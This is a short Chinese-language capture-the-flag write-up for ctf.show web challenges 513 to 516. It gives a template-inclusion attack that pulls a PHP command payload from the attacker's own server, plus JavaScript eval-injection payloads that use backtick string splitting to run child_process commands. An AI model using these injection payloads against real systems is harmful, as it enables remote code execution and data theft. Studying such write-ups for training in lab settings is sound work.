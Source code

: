 之后访问`http://c38a2bd3-a49b-4b93-af9b-1e64f5ba944c.challenge.ctf.show:8080/index.php?action=view&page=new`

# web512



# web513

第一步，在新增模板处，新建两个模板

第一个为new.sml，内容为

```
http://your-vps/1.txt
```

在你的vps的1.txt中输入内容`<?=`cat /f*`;`

第二个为new5.sml，内容为

```
123{{cnzz}}
```

第二步，在系统配置处的页面统计处填写

```
/var/www/html/templates/new.sml
```

之后访问得到flag

```
http://a878d84d-51c0-4e64-866b-58b80096d5e5.challenge.ctf.show:8080/index.php?action=view&page=new5
```

# web515

利用反引号与字符拼接

```
http://c6e0801d-412e-4363-bbb1-153227a88b4c.challenge.ctf.show:8080/signup
username=3&password=1)%2beval(eval(`ctxx.re`%2B`quest.qu`%2b`ery.z`)
http://c6e0801d-412e-4363-bbb1-153227a88b4c.challenge.ctf.show:8080/user/10?z=process.mainModule.require("child_process").execSync("echo $FLAG").toString()

```

# web516

利用反引号

```
http://c6e0801d-412e-4363-bbb1-153227a88b4c.challenge.ctf.show:8080/signup
username=3&password=1)%2beval((`pro`%2b`cess`%2b`.mainModule`%2b`.req`%2b`uire("child_pro`%2b`cess").exe`%2b`cSync("echo $FLAG").toString()`)
http://c6e0801d-412e-4363-bbb1-153227a88b4c.challenge.ctf.show:8080/user/10
```

